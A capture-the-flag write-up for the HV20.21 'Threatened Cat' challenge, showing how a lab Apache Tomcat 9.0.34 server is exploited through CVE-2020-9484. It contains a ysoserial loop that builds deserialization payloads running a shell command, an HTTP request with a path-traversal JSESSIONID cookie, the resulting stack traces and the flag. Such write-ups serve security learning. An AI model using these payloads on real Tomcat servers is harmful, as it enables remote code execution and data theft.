

# HV20.21 Threatened Cat

| <!-- --> | <!-- --> |
| --- | --- |
| **Author**     | inik |
| **Level**      | hard |
| **Categories** | `web security`, `exploitation` |

## Description

You can feed this cat with many different things, but only a certain kind of file can endanger the cat.

Do you find that kind of files? And if yes, can you use it to disclose the flag? Ahhh, by the way: The cat likes to hide its stash in `/usr/bin/catnip.txt`.

**Note**: The cat is currently in hibernation and will take a few seconds to wake up.

## Approach

Request to `https://81c2252c-618c-4fdf-bec0-9cf7ed008266.idocker.vuln.land/bin/catnip.txt` gave a 404 page including server version:
`Apache Tomcat/9.0.34`

Since this challenge is in the `exploitation` category, there probably is some exploit around for that version of Tomcat.

Candidate exploits are:
- https://www.exploit-db.com/exploits/49039 --> nope, this one applies only to versions up to 9.0.30.
- https://tomcat.apache.org/security-9.html#Fixed_in_Apache_Tomcat_9.0.35 --> CVE-2020-9484: This looks more promising! All the information needed seems to be available (i.e. we can upload files, control their name, know where files are stored, etc.)

A nice write-up about the vulnerability can be found at https://www.redtimmy.com/apache-tomcat-rce-by-deserialization-cve-2020-9484-write-up-and-exploit/.

So, the plan is to generate a session store, upload it through the regular "threatened cat" interface (as a `bla.session` file), craft a second request with the value in the`JSESSIONID` cookie pointing to the uploaded file.

I initially started generating a single payload using `ysoserial`. It impressed the cat (it said so...), but it didn't work. So, I went a bit more broad and generated many payloads at once and uploaded these:
```bash
for pl in Clojure CommonsBeanutils1 CommonsCollections1 CommonsCollections2 CommonsCollections3 CommonsCollections4 CommonsCollections5 CommonsCollections6 CommonsCollections7; do java -jar ~/tools/ysoserial-master-30099844c6-1.jar $pl 'cp /usr/bin/catnip.txt /usr/local/uploads/catnip.txt' > $pl.session; done
```



I then triggered requests with the `JSESSIONID` pointing to these files:
```
GET /cat/;jsessionid=DC086F9205C860F48FCAC655CE2013A3 HTTP/1.1
Host: 08cbe5a5-3262-47e0-994a-c5655f0b856c.idocker.vuln.land
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:84.0) Gecko/20100101 Firefox/84.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: https://08cbe5a5-3262-47e0-994a-c5655f0b856c.idocker.vuln.land/cat/
Connection: close
Cookie: JSESSIONID=../../../../../../../../../../usr/local/uploads/CommonsCollections2
Upgrade-Insecure-Requests: 1
Pragma: no-cache
Cache-Control: no-cache

```

Finally, the `CommonsCollections2` payload did the trick and copied the `catnip.txt` file to the uploads folder where it was accessible to me. The response to that request includes long stacktraces letting me know that the payload was indeed executed:
```
HTTP/1.1 500 Internal Server Error
Content-Language: en
Content-Type: text/html;charset=utf-8
Date: Mon, 21 Dec 2020 13:17:32 GMT
Connection: close
Content-Length: 11546

<!doctype html><html lang="en"><head><title>HTTP Status 500 – Internal Server Error</title><style type="text/css">body {font-family:Tahoma,Arial,sans-serif;} h1, h2, h3, b {color:white;background-color:#525D76;} h1 {font-size:22px;} h2 {font-size:16px;} h3 {font-size:14px;} p {font-size:12px;} a {color:black;} .line {height:1px;background-color:#525D76;border:none;}</style></head><body><h1>HTTP Status 500 – Internal Server Error</h1><hr class="line" /><p><b>Type</b> Exception Report</p><p><b>Message</b> InvokerTransformer: The method &#39;newTransformer&#39; on &#39;class com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl&#39; threw an exception</p><p><b>Description</b> The server encountered an unexpected condition that prevented it from fulfilling the request.</p><p><b>Exception</b></p><pre>org.apache.commons.collections4.FunctorException: InvokerTransformer: The method &#39;newTransformer&#39; on &#39;class com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl&#39; threw an exception
    org.apache.commons.collections4.functors.InvokerTransformer.transform(InvokerTransformer.java:137)
    org.apache.commons.collections4.comparators.TransformingComparator.compare(TransformingComparator.java:81)
    java.base&#47;java.util.PriorityQueue.siftDownUsingComparator(PriorityQueue.java:713)
    java.base&#47;java.util.PriorityQueue.heapify(PriorityQueue.java:735)
    java.base&#47;java.util.PriorityQueue.readObject(PriorityQueue.java:802)
    java.base&#47;jdk.internal.reflect.NativeMethodAccessorImpl.invoke0(Native Method)
    java.base&#47;jdk.internal.reflect.NativeMethodAccessorImpl.invoke(NativeMethodAccessorImpl.java:62)
    java.base&#47;jdk.internal.reflect.DelegatingMethodAccessorImpl.invoke(DelegatingMethodAccessorImpl.java:43)
    java.base&#47;java.lang.reflect.Method.invoke(Method.java:564)
    java.base&#47;java.io.ObjectStreamClass.invokeReadObject(ObjectStreamClass.java:1216)
    java.base&#47;java.io.ObjectInputStream.readSerialData(ObjectInputStream.java:2359)
    java.base&#47;java.io.ObjectInputStream.readOrdinaryObject(ObjectInputStream.java:2193)
    java.base&#47;java.io.ObjectInputStream.readObject0(ObjectInputStream.java:1685)
    java.base&#47;java.io.ObjectInputStream.readObject(ObjectInputStream.java:499)
    java.base&#47;java.io.ObjectInputStream.readObject(ObjectInputStream.java:457)
    org.apache.catalina.session.StandardSession.doReadObject(StandardSession.java:1554)
    org.apache.catalina.session.StandardSession.readObjectData(StandardSession.java:1049)
    org.apache.catalina.session.FileStore.load(FileStore.java:229)
    org.apache.catalina.session.PersistentManagerBase.loadSessionFromStore(PersistentManagerBase.java:764)
    org.apache.catalina.session.PersistentManagerBase.swapIn(PersistentManagerBase.java:714)
    org.apache.catalina.session.PersistentManagerBase.findSession(PersistentManagerBase.java:493)
    org.apache.catalina.connector.Request.doGetSession(Request.java:2978)
    org.apache.catalina.connector.Request.getSessionInternal(Request.java:2698)
    org.apache.catalina.authenticator.AuthenticatorBase.invoke(AuthenticatorBase.java:511)
    org.apache.catalina.valves.ErrorReportValve.invoke(ErrorReportValve.java:92)
    org.apache.catalina.valves.AbstractAccessLogValve.invoke(AbstractAccessLogValve.java:690)
    org.apache.catalina.connector.CoyoteAdapter.service(CoyoteAdapter.java:343)
    org.apache.coyote.http11.Http11Processor.service(Http11Processor.java:373)
    org.apache.coyote.AbstractProcessorLight.process(AbstractProcessorLight.java:65)
    org.apache.coyote.AbstractProtocol$ConnectionHandler.process(AbstractProtocol.java:868)
    org.apache.tomcat.util.net.NioEndpoint$SocketProcessor.doRun(NioEndpoint.java:1590)
    org.apache.tomcat.util.net.SocketProcessorBase.run(SocketProcessorBase.java:49)
    java.base&#47;java.util.concurrent.ThreadPoolExecutor.runWorker(ThreadPoolExecutor.java:1130)
    java.base&#47;java.util.concurrent.ThreadPoolExecutor$Worker.run(ThreadPoolExecutor.java:630)
    org.apache.tomcat.util.threads.TaskThread$WrappingRunnable.run(TaskThread.java:61)
    java.base&#47;java.lang.Thread.run(Thread.java:832)
</pre><p><b>Root Cause</b></p><pre>java.lang.reflect.InvocationTargetException
    java.base&#47;jdk.internal.reflect.NativeMethodAccessorImpl.invoke0(Native Method)
    java.base&#47;jdk.internal.reflect.NativeMethodAccessorImpl.invoke(NativeMethodAccessorImpl.java:62)
    java.base&#47;jdk.internal.reflect.DelegatingMethodAccessorImpl.invoke(DelegatingMethodAccessorImpl.java:43)
    java.base&#47;java.lang.reflect.Method.invoke(Method.java:564)
    org.apache.commons.collections4.functors.InvokerTransformer.transform(InvokerTransformer.java:129)
    org.apache.commons.collections4.comparators.TransformingComparator.compare(TransformingComparator.java:81)
    java.base&#47;java.util.PriorityQueue.siftDownUsingComparator(PriorityQueue.java:713)
    java.base&#47;java.util.PriorityQueue.heapify(PriorityQueue.java:735)
    java.base&#47;java.util.PriorityQueue.readObject(PriorityQueue.java:802)
    java.base&#47;jdk.internal.reflect.NativeMethodAccessorImpl.invoke0(Native Method)
    java.base&#47;jdk.internal.reflect.NativeMethodAccessorImpl.invoke(NativeMethodAccessorImpl.java:62)
    java.base&#47;jdk.internal.reflect.DelegatingMethodAccessorImpl.invoke(DelegatingMethodAccessorImpl.java:43)
    java.base&#47;java.lang.reflect.Method.invoke(Method.java:564)
    java.base&#47;java.io.ObjectStreamClass.invokeReadObject(ObjectStreamClass.java:1216)
    java.base&#47;java.io.ObjectInputStream.readSerialData(ObjectInputStream.java:2359)
    java.base&#47;java.io.ObjectInputStream.readOrdinaryObject(ObjectInputStream.java:2193)
    java.base&#47;java.io.ObjectInputStream.readObject0(ObjectInputStream.java:1685)
    java.base&#47;java.io.ObjectInputStream.readObject(ObjectInputStream.java:499)
    java.base&#47;java.io.ObjectInputStream.readObject(ObjectInputStream.java:457)
    org.apache.catalina.session.StandardSession.doReadObject(StandardSession.java:1554)
    org.apache.catalina.session.StandardSession.readObjectData(StandardSession.java:1049)
    org.apache.catalina.session.FileStore.load(FileStore.java:229)
    org.apache.catalina.session.PersistentManagerBase.loadSessionFromStore(PersistentManagerBase.java:764)
    org.apache.catalina.session.PersistentManagerBase.swapIn(PersistentManagerBase.java:714)
    org.apache.catalina.session.PersistentManagerBase.findSession(PersistentManagerBase.java:493)
    org.apache.catalina.connector.Request.doGetSession(Request.java:2978)
    org.apache.catalina.connector.Request.getSessionInternal(Request.java:2698)
    org.apache.catalina.authenticator.AuthenticatorBase.invoke(AuthenticatorBase.java:511)
    org.apache.catalina.valves.ErrorReportValve.invoke(ErrorReportValve.java:92)
    org.apache.catalina.valves.AbstractAccessLogValve.invoke(AbstractAccessLogValve.java:690)
    org.apache.catalina.connector.CoyoteAdapter.service(CoyoteAdapter.java:343)
    org.apache.coyote.http11.Http11Processor.service(Http11Processor.java:373)
    org.apache.coyote.AbstractProcessorLight.process(AbstractProcessorLight.java:65)
    org.apache.coyote.AbstractProtocol$ConnectionHandler.process(AbstractProtocol.java:868)
    org.apache.tomcat.util.net.NioEndpoint$SocketProcessor.doRun(NioEndpoint.java:1590)
    org.apache.tomcat.util.net.SocketProcessorBase.run(SocketProcessorBase.java:49)
    java.base&#47;java.util.concurrent.ThreadPoolExecutor.runWorker(ThreadPoolExecutor.java:1130)
    java.base&#47;java.util.concurrent.ThreadPoolExecutor$Worker.run(ThreadPoolExecutor.java:630)
    org.apache.tomcat.util.threads.TaskThread$WrappingRunnable.run(TaskThread.java:61)
    java.base&#47;java.lang.Thread.run(Thread.java:832)
</pre><p><b>Root Cause</b></p><pre>java.lang.NullPointerException
    java.xml&#47;com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet.postInitialization(AbstractTranslet.java:372)
    java.xml&#47;com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl.getTransletInstance(TemplatesImpl.java:557)
    java.xml&#47;com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl.newTransformer(TemplatesImpl.java:584)
    java.base&#47;jdk.internal.reflect.NativeMethodAccessorImpl.invoke0(Native Method)
    java.base&#47;jdk.internal.reflect.NativeMethodAccessorImpl.invoke(NativeMethodAccessorImpl.java:62)
    java.base&#47;jdk.internal.reflect.DelegatingMethodAccessorImpl.invoke(DelegatingMethodAccessorImpl.java:43)
    java.base&#47;java.lang.reflect.Method.invoke(Method.java:564)
    org.apache.commons.collections4.functors.InvokerTransformer.transform(InvokerTransformer.java:129)
    org.apache.commons.collections4.comparators.TransformingComparator.compare(TransformingComparator.java:81)
    java.base&#47;java.util.PriorityQueue.siftDownUsingComparator(PriorityQueue.java:713)
    java.base&#47;java.util.PriorityQueue.heapify(PriorityQueue.java:735)
    java.base&#47;java.util.PriorityQueue.readObject(PriorityQueue.java:802)
    java.base&#47;jdk.internal.reflect.NativeMethodAccessorImpl.invoke0(Native Method)
    java.base&#47;jdk.internal.reflect.NativeMethodAccessorImpl.invoke(NativeMethodAccessorImpl.java:62)
    java.base&#47;jdk.internal.reflect.DelegatingMethodAccessorImpl.invoke(DelegatingMethodAccessorImpl.java:43)
    java.base&#47;java.lang.reflect.Method.invoke(Method.java:564)
    java.base&#47;java.io.ObjectStreamClass.invokeReadObject(ObjectStreamClass.java:1216)
    java.base&#47;java.io.ObjectInputStream.readSerialData(ObjectInputStream.java:2359)
    java.base&#47;java.io.ObjectInputStream.readOrdinaryObject(ObjectInputStream.java:2193)
    java.base&#47;java.io.ObjectInputStream.readObject0(ObjectInputStream.java:1685)
    java.base&#47;java.io.ObjectInputStream.readObject(ObjectInputStream.java:499)
    java.base&#47;java.io.ObjectInputStream.readObject(ObjectInputStream.java:457)
    org.apache.catalina.session.StandardSession.doReadObject(StandardSession.java:1554)
    org.apache.catalina.session.StandardSession.readObjectData(StandardSession.java:1049)
    org.apache.catalina.session.FileStore.load(FileStore.java:229)
    org.apache.catalina.session.PersistentManagerBase.loadSessionFromStore(PersistentManagerBase.java:764)
    org.apache.catalina.session.PersistentManagerBase.swapIn(PersistentManagerBase.java:714)
    org.apache.catalina.session.PersistentManagerBase.findSession(PersistentManagerBase.java:493)
    org.apache.catalina.connector.Request.doGetSession(Request.java:2978)
    org.apache.catalina.connector.Request.getSessionInternal(Request.java:2698)
    org.apache.catalina.authenticator.AuthenticatorBase.invoke(AuthenticatorBase.java:511)
    org.apache.catalina.valves.ErrorReportValve.invoke(ErrorReportValve.java:92)
    org.apache.catalina.valves.AbstractAccessLogValve.invoke(AbstractAccessLogValve.java:690)
    org.apache.catalina.connector.CoyoteAdapter.service(CoyoteAdapter.java:343)
    org.apache.coyote.http11.Http11Processor.service(Http11Processor.java:373)
    org.apache.coyote.AbstractProcessorLight.process(AbstractProcessorLight.java:65)
    org.apache.coyote.AbstractProtocol$ConnectionHandler.process(AbstractProtocol.java:868)
    org.apache.tomcat.util.net.NioEndpoint$SocketProcessor.doRun(NioEndpoint.java:1590)
    org.apache.tomcat.util.net.SocketProcessorBase.run(SocketProcessorBase.java:49)
    java.base&#47;java.util.concurrent.ThreadPoolExecutor.runWorker(ThreadPoolExecutor.java:1130)
    java.base&#47;java.util.concurrent.ThreadPoolExecutor$Worker.run(ThreadPoolExecutor.java:630)
    org.apache.tomcat.util.threads.TaskThread$WrappingRunnable.run(TaskThread.java:61)
    java.base&#47;java.lang.Thread.run(Thread.java:832)
</pre><p><b>Note</b> The full stack trace of the root cause is available in the server logs.</p><hr class="line" /><h3>Apache Tomcat/9.0.34</h3></body></html>
```

Everything that remained to do was downloading the file and read out the flag.

## Tools
- ysoserial - https://github.com/frohoff/ysoserial
- BurpSuite
- DuckDuckGo

## Flag
`HV20{!D3s3ri4liz4t10n_rulz!}`
